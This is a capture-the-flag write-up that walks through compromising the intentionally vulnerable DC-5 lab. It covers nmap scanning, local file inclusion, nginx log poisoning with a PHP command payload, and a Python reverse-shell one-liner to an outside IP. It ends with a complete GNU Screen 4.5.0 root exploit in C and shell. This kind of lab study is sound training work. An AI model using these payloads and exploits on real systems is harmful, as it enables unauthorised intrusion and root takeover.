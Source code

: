 ```yaml
---
layout: default
title : muzec - DC-5 Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/119848672-00c52480-beda-11eb-84c3-6fadfed216a7.png)

DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

The plan was for DC-5 to kick it up a notch, so this might not be great for beginners, but should be ok for people with intermediate or better experience. Time will tell (as will feedback).

As far as I am aware, there is only one exploitable entry point to get in (there is no SSH either). This particular entry point may be quite hard to identify, but it is there. You need to look for something a little out of the ordinary (something that changes with a refresh of a page). This will hopefully provide some kind of idea as to what the vulnerability might involve.

And just for the record, there is no phpmailer exploit involved. :-)

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.


We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu May 27 05:45:51 2021 as: nmap -sC -p- -sV -oA nmap 172.16.139.185
Nmap scan report for DC-5 (172.16.139.185)
Host is up (0.0015s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.6.2
|_http-server-header: nginx/1.6.2
|_http-title: Welcome
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          47835/udp   status
|   100024  1          51334/udp6  status
|   100024  1          52216/tcp   status
|_  100024  1          54172/tcp6  status
52216/tcp open  status  1 (RPC #100024)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 27 05:46:08 2021 -- 1 IP address (1 host up) scanned in 16.99 seconds
```

Scanning for full ports give us 3 open port but since the lab only focus on the port 80 HTTP let hit it to start enumerating.

![image](https://user-images.githubusercontent.com/69868171/119848672-00c52480-beda-11eb-84c3-6fadfed216a7.png)

We are on the webpage let look around and find something vulnerable spend sometime checking so i landed on the contact page.

![image](https://user-images.githubusercontent.com/69868171/119849779-e93a6b80-beda-11eb-892f-8b382fcbace5.png)

Let try to contact them and also checking for sql injection but nop not the way in so checking the `url` we have after sending them a mail.

`http://172.16.139.186/thankyou.php?firstname=&lastname=&country=australia&subject=` looking like LFI right?? sound interesting.

![image](https://user-images.githubusercontent.com/69868171/119850380-7d0c3780-bedb-11eb-8656-dd0722043a51.png)

Not going to lie getting the right parameter is a really pain but guess what we learn everyday it something simple but my mind was not set there at all so let continue.

`http://172.16.139.186/thankyou.php?file=/etc/passwd` here the right parameter is `file` probably by guessing to took me long.

![image](https://user-images.githubusercontent.com/69868171/119851068-1b000200-bedc-11eb-846c-d0789999fc3b.png)

### LFI To SHELL Through Log Poisoning 

We know our web server is Nginx so to poison it is easy since we know the path with the help of little research from google.

let intercept our request with burp and send it to the repeater tab in burp `<?php system ($_GET['rev']) ?>`

![image](https://user-images.githubusercontent.com/69868171/119852582-69fa6700-bedd-11eb-9224-b6c672dfbedb.png)

Let confirm it if we poisoning it `http://172.16.139.186/thankyou.php?file=/var/log/nginx/error.log`

![image](https://user-images.githubusercontent.com/69868171/119852751-93b38e00-bedd-11eb-9a4c-84dfc4ffe02e.png)

Boom defintely we do let run some command back to our burp `/var/log/nginx/error.log&rev=ls` the path am talking about with a little twist that we added to poison the web server.

![image](https://user-images.githubusercontent.com/69868171/119852972-c5c4f000-bedd-11eb-8d5c-10be66db1834.png)


### Getting Reverse Shell

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` 

NOTE:- edit the port and IP and also start an Ncat listener now let run it to get our shell.

![image](https://user-images.githubusercontent.com/69868171/119853808-834fe300-bede-11eb-9f49-30ffd6571ab4.png)

Shell below;

![image](https://user-images.githubusercontent.com/69868171/119853870-91056880-bede-11eb-8377-286c663c191f.png)

Spawning a TTY shell making shell stable also to make so cool to use i know i love using the words cool lol .

`python -c'import pty; pty.spawn ("/bin/bash")'` and i think we are good to go.

![image](https://user-images.githubusercontent.com/69868171/119854351-01ac8500-bedf-11eb-8d18-ba03af89423c.png)

Checking all folder found nothing so i decided to check for SUID with `find / -perm -u=s -type f 2>/dev/null` to list out SUID files.

![image](https://user-images.githubusercontent.com/69868171/119854635-3ae4f500-bedf-11eb-9c14-07f151dc5bee.png)

Seems we have `/bin/screen-4.5.0` let check for exploit.

![image](https://user-images.githubusercontent.com/69868171/119854944-839cae00-bedf-11eb-9139-3d26bfc6e999.png)

Nice.

### Privilege Escalation

We have to do now is to create the exploit we have already but we some fixing to do.

![image](https://user-images.githubusercontent.com/69868171/119855704-23f2d280-bee0-11eb-9ff9-c5da52e2636b.png)

Now let do the right thing.

```
#include <stdio.h>                                                                 
#include <sys/types.h>       
#include <unistd.h>                                                                                                                                                    
__attribute__ ((__constructor__))                                                                                                                                      
void dropshell(void){                                                                                                                                                  
    chown("/tmp/rootshell", 0, 0);                                                                                                                                     
    chmod("/tmp/rootshell", 04755);                                                                                                                                    
    unlink("/etc/ld.so.preload");                                                                                                                                      
    printf("[+] done!\n");
}          
```

Let save it in a file name `exploit.c`

```
#include <stdio.h>
int main(void){                          
    setuid(0);                                                                     
    setgid(0);
    seteuid(0);                          
    setegid(0);                                                                    
    execvp("/bin/sh", NULL, NULL);
}
```

Let save in a file name `rootshell.c` 

```
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell 
```

Let save it in a file name `root.sh`

![image](https://user-images.githubusercontent.com/69868171/119856748-f78b8600-bee0-11eb-9634-f82bda6b30f5.png)


Now we need to compile it.

```
gcc -fPIC -shared -ldl -o libhax.so exploit.c
gcc -o rootshell rootshell.c
```

![image](https://user-images.githubusercontent.com/69868171/119857040-3c172180-bee1-11eb-950f-efc9623dcf32.png)

Now let upload it on the target.

![image](https://user-images.githubusercontent.com/69868171/119857837-e68f4480-bee1-11eb-87cc-4e3246f7c393.png)

We have all files on the target now let give the file with the name `root.sh` permission `chmod +x root.sh` now let run it.

![image](https://user-images.githubusercontent.com/69868171/119858246-4b4a9f00-bee2-11eb-99b3-9466253409cf.png)

Rooooooooooooooooooot let now get the flag.txt.

![image](https://user-images.githubusercontent.com/69868171/119858426-7503c600-bee2-11eb-9c0b-80f99d9802e5.png)

Box rooted and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
